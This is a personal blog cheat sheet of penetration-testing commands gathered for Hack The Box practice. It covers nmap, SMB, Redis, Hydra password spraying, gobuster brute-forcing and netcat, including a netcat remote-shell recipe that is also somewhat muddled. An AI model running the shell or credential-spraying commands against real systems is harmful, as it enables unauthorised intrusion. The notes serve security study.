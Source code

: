 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections
```bash
1. Basic Syntax
nc [options] [hostname] [port]

2. Start a TCP Server
nc -l -p 1234

3. Connect to a TCP Server
nc [hostname] 1234

4. File Transfer
On the server (receiving):
nc -l -p 1234 > received_file
On the client (sending):
nc [server_ip] 1234 < file_to_send

5. Port Scanning
nc -zv [hostname] [port_range]
Example:
nc -zv localhost 20-80

6. Simple Chat
Listener:
nc -l -p 1234
Connector:
nc [hostname] 1234

7. UDP Mode
Send UDP packets:
nc -u [hostname] 1234
Listen for UDP packets:
nc -u -l -p 1234

8. Remote Shell
Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
Client (target's machine):
nc [attacker_ip] 4444

9. Check if a Port is Open
nc -zv [hostname] [port]
Example:
nc -zv example.com 80

10. Set a Timeout
nc -w 3 [hostname] 1234
```

#### Gobuster - Directory/File Brute-Force (HTTP/HTTPS)

```bash
gobuster dir -u http://example.com -w /path/to/wordlist.txt
```

- `dir`: Directory/file brute-forcing mode
- `-u`: Target URL
- `-w`: Path to the wordlist

#### DNS Subdomain Brute-Force

```bash
gobuster dns -d example.com -w /path/to/wordlist.txt
```

- `dns`: DNS subdomain brute-forcing mode
- `-d`: Domain to target

#### Virtual Host Brute-Force

```bash
gobuster vhost -u http://example.com -w /path/to/wordlist.txt
```

- `vhost`: Virtual host brute-forcing mode
- `-u`: Target URL

### Additional Flags

- `-t`: Number of concurrent threads (default: 10)
- `-o`: Output results to a file
- `-x`: File extensions to check (e.g., `.php`, `.html`)
- `-s`: HTTP response status codes to consider valid (e.g., `200,301`)

### Example Command with Output

```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -t 50 -o results.txt
```

This will brute-force directories using 50 threads and save the results to `results.txt`.


#### MySQL 

Use the following when recieiving the following errror: 

```ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it```

```bash 
mysql -h IPADDRESS -u root --skip-ssl```
